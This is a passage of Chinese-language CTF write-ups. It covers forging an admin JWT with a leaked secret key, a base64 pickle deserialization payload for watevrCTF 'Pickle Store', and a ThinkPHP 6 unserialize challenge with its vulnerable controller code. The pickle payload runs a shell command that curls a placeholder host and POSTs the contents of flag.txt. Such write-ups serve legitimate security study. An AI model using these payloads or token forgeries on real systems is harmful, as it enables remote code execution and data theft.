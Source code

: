 访问得到 secret key 为 `you-will-never-guess`

之后随便注册一个用户, 用 secret key 伪造 jwt 指定用户为 admin

然后访问 /home 查看图片源码得到 flag

## [watevrCTF-2019]Pickle Store

cookie session 参数存在 pickle 反序列化

payload

```python
base64.b64encode(b"cos\nsystem\n(S'curl http://x.x.x.x:yyyy/ -X POST -d \"`cat flag.txt`\"'\ntR.")
```

## [安洵杯 2019]iamthinking

www.zip 源码泄露

thinkphp 6.0

Controller/Index.php

```php
<?php
namespace app\controller;
use app\BaseController;

class Index extends BaseController
{
    public function index()
    {
        
        echo "<img src='../test.jpg'"."/>";
        $paylaod = @$_GET['payload'];
        if(isset($paylaod))
        {
            $url = parse_url($_SERVER['REQUEST_URI']);
            parse_str($url['query'],$query);
            foreach($query as $value)
            {
                if(preg_match("/^O/i",$value))
                {
                    die('STOP HACKING');
                    exit();
                }
            }
            unserialize($paylaod);
        }
    }
}
```

简单绕过 `parse_url`, 然后网上随便找一条反序列化链
